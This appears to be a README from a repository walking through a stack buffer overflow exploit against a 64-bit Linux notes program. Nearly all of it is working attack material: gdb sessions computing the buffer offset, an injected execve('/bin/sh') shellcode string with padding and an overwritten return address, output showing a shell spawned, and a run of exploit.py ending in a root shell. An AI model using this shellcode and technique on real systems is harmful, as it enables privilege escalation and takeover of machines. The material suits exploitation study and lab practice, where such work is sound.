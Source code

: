# OS
1. This only works on a 64bit linux machine.

# How it works
0x0000000000000bae <+39>:	lea    -0x70(%rbp),%rax

- 112 + 14 to the stack == 126

(gdb) break main
Breakpoint 1 at 0x555555554b8b

(gdb) run $(python -c 'print "A"*120')
Breakpoint 1, 0x0000555555554b8b in main ()

(gdb) print $rbp - 0x70
$1 = (void *) 0x7fffffffe090

(gdb) run $(python -c 'print "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "A"*90 + "\x7f\xff\xff\xff\xe0\x90"[::-1]')

The program being debugged has been started already.

Breakpoint 1, 0x0000555555554b8b in main ()
(gdb) c
Continuing.
H1�H�//bin/shH�SH��PWH���;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
-------[ end of note data ]-------
process 27222 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
# 

- We use $rbp - 0x70 as the return address in exploit.py

# How to use exploit
root@kali:~# python exploit.py 
- [DEBUG] found a 10 byte note for user id 0
- -------[ end of note data ]-------
- process 7588 is executing new program: /bin/dash
- ~# whoami
- root
